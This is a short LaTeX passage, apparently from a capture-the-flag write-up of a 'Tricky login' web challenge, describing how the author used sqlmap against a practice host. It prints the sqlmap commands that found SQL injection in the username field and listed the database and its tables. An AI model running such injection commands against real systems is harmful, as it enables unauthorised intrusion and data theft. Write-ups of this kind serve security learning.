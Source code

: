 \begin{center}
    \includegraphics[width=11cm]{img/Web hacking/Tricky login/Screenshot 2023-11-24 at 16.20.45.png}
\end{center}

Using sqlmap i tried to check for vulnerabilities with the command \\\texttt{sqlmap -u "http://julie2.hackingarena.no:803" --data="username=admin\&passwd=pass"}
but that didn't result in anything. So I tried to increase the level of the test with the command 
\\\texttt{sqlmap -u "http://julie2.hackingarena.no:803" --data="username=admin\&passwd=pass" --level=2} 
and that resulted in finding a vulnerability in the username field.
I then ran the command
\\\texttt{sqlmap -u "http://julie2.hackingarena.no:803" --current-db  --data="username=admin" --tables}
to find the name of the database and the tables in it. 
This resulted in the following output:

\begin{center}
    \includegraphics[width=15cm]{img/Web hacking/Tricky login/Screenshot 2023-11-24 at 16.11.07.png}
\end{center}

